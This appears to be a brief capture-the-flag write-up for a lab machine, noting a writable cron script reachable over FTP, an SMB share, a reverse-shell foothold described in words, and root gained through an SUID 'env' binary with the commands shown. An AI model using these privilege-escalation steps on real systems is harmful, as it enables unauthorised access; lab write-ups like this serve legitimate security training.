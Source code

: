 ## Info 
- namelessone

### FTP
- Found `clean.sh` will be executed every minute and is writable.

### SMB
- shares: `pics`
- user: `namelessone`


## Path
### User
1. Since we can write to `clean.sh`, we can upload a reverse shell. Get shell!

### Root
1. `find / -perm -4000 2>/dev/null` found `env` has SUID. According to GTFOBins, we can gain root.
```
$ env /bin/sh -p
# whoami 
root
```


